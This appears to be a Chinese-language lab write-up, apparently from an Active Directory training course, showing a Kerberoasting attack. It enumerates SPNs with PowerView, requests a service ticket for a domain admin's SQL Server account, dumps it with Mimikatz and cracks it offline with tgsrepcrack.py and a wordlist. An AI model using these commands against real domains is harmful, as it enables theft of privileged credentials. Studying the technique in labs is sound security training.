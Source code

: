 
什么是SPN？
> SPN(Service Principal name)服务器主体名称。
> 在使用 Kerberos 身份验证的网络中，必须在内置计算机帐户（如 NetworkService 或 LocalSystem）或用户帐户下为服务器注册 SPN。对于内置帐户，SPN 将自动进行注册。但是，如果在域用户帐户下运行服务，则必须为要使用的帐户手动注册SPN。

查找所有SPN，会有很多返回，但主要查看域管理员开启的服务

```
Get-NetUser -spn |select userprincipalname,serviceprincipalname
```



![image-20220307223014352](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307223014352.png)



尤其留意域管理员的信息，这里svcadmin开启了SQL server服务。

因为svcadmin是一个域管理员，所以我们可以以它开启的服务请求一个tikcet

下面两条命令在学生shell下执行，如果报错了，可能是student VM的网络问题，重启一下

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```



![image-20220307223752293](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307223752293.png)



klist查看

![image-20220307223948494](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307223948494.png)



有MSSQLSvc的TGS。client就是学生账号student366

用Mimikatz dump出tikets



![image-20220307224108424](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20220307224108424.png)



在当前目录生成了一个TGS文件```1-40a10000-student366@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi```

拷贝到文件夹```kerberoast```，使用```tgsrepcrack.py```破解密码
执行命令：

```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt 1-40a10000-student366@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```


